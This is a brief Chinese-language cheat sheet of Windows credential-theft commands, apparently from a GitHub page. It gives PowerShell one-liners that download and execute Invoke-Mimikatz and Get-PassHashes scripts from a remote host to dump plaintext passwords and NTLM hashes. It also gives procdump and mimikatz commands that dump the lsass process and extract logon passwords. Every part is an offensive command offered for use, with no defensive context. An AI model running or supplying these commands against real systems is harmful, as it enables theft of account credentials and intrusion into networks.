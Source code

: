 #### 0x01 mimikatz远程执行获取明文密码

```sh
powershell iex (new-object system.net.webclient).downloadstring('http://10.0.0.213:8000/Invoke-Mimikatz.ps1');invoke-mimikatz -DumpCreds
```

<br/>

#### 0x02  获取NTLM-hash

```sh
powershell iex(new-object system.net.webclient).downloadstring('http://10.0.0.213:8000/Get-PassHashes.ps1.txt');Get-PassHashes
```

<br/>

#### 0x03 dump进程获取密码

```sh
procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
```

```sh
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
```